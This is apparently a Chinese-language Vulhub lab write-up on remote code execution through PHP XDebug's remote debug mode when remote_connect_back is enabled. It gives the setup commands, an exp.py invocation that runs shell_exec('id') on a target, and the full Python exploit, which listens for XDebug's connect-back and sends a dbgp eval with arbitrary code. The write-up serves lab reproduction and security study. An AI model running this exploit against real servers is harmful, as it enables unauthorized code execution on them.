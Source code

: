 # PHP XDebug 远程调试模式导致代码执行

## 漏洞描述

XDebug 是 PHP 的一个扩展，用于调试 PHP 代码。如果目标开启了远程调试模式，并设置 `remote_connect_back = 1`：

```
xdebug.remote_connect_back = 1
xdebug.remote_enable = 1
```

这个配置下，我们访问 `http://target/index.php?XDEBUG_SESSION_START=phpstorm`，目标服务器的 XDebug 将会连接访问者的 IP（或 `X-Forwarded-For` 头指定的地址）并通过 dbgp 协议与其通信，我们通过 dbgp 中提供的 eval 方法即可在目标服务器上执行任意 PHP 代码。

更多说明可参考：

 - https://xdebug.org
 - https://ricterz.me/posts/Xdebug%3A%20A%20Tiny%20Attack%20Surface

## 环境搭建

Vulhub 编译及启动测试环境：

```
docker compose build
docker compose up -d
```

启动完成后，访问 `http://your-ip:8080/` 即可发现主页是一个简单的 phpinfo，在其中可以找到 xdebug 的配置，可见开启了远程调试。

![](images/PHP%20XDebug%20远程调试模式导致代码执行/image-20240529112232697.png)

## 漏洞复现

因为需要使用 dbgp 协议与目标服务器通信，所以无法用 http 协议复现漏洞。

Vulhub 提供了 [exp.py](https://github.com/vulhub/vulhub/blob/master/php/xdebug-rce/exp.py)，指定目标 web 地址、待执行的 php 代码即可：

```
# 要求用python3并安装requests库
python3 exp.py -t http://127.0.0.1:8080/index.php -c 'shell_exec('id');'
```

![](images/PHP%20XDebug%20远程调试模式导致代码执行/image-20240529112516798.png)

**重要说明：因为该通信是一个反向连接的过程，exp.py 启动后其实是会监听本地的 9000 端口（可通过 -l 参数指定）并等待 XDebug 前来连接，所以执行该脚本的服务器必须有外网 IP（或者与目标服务器处于同一内网）。**

## 漏洞 POC

exp.py

```python
#!/usr/bin/env python3
import re
import sys
import time
import requests
import argparse
import socket
import base64
import binascii
from concurrent.futures import ThreadPoolExecutor


pool = ThreadPoolExecutor(1)
session = requests.session()
session.headers = {
    'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)'
}

def recv_xml(sock):
    blocks = []
    data = b''
    while True:
        try:
            data = data + sock.recv(1024)
        except socket.error as e:
            break
        if not data:
            break

        while data:
            eop = data.find(b'\x00')
            if eop < 0:
                break
            blocks.append(data[:eop])
            data = data[eop+1:]

        if len(blocks) >= 4:
            break
    
    return blocks[3]


def trigger(url):
    time.sleep(2)
    try:
        session.get(url + '?XDEBUG_SESSION_START=phpstorm', timeout=0.1)
    except:
        pass


if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='XDebug remote debug code execution.')
    parser.add_argument('-c', '--code', required=True, help='the code you want to execute.')
    parser.add_argument('-t', '--target', required=True, help='target url.')
    parser.add_argument('-l', '--listen', default=9000, type=int, help='local port')
    args = parser.parse_args()
    
    ip_port = ('0.0.0.0', args.listen)
    sk = socket.socket()
    sk.settimeout(10)
    sk.bind(ip_port)
    sk.listen(5)

    pool.submit(trigger, args.target)
    conn, addr = sk.accept()
    conn.sendall(b''.join([b'eval -i 1 -- ', base64.b64encode(args.code.encode()), b'\x00']))

    data = recv_xml(conn)
    print('[+] Recieve data: ' + data.decode())
    g = re.search(rb'<\!\[CDATA\[([a-z0-9=\./\+]+)\]\]>', data, re.I)
    if not g:
        print('[-] No result...')
        sys.exit(0)

    data = g.group(1)

    try:
        print('[+] Result: ' + base64.b64decode(data).decode())
    except binascii.Error:
        print('[-] May be not string result...')

```
